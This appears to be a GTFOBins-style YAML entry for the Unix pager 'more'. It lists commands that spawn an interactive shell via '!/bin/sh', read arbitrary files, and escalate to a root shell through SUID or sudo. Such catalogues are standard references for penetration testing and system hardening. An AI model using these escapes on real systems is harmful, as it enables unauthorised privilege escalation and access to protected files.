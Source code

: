 ```yaml
---
functions:
  execute-interactive:
  - code: |
      TERM= more /etc/profile
      !/bin/sh
  file-read:
  - code: 'more file_to_read

'
  suid-enabled:
  - code: "./more file_to_read\n"
  sudo-enabled:
  - code: |
      TERM= sudo -E more /etc/profile
      !/bin/sh
---
```

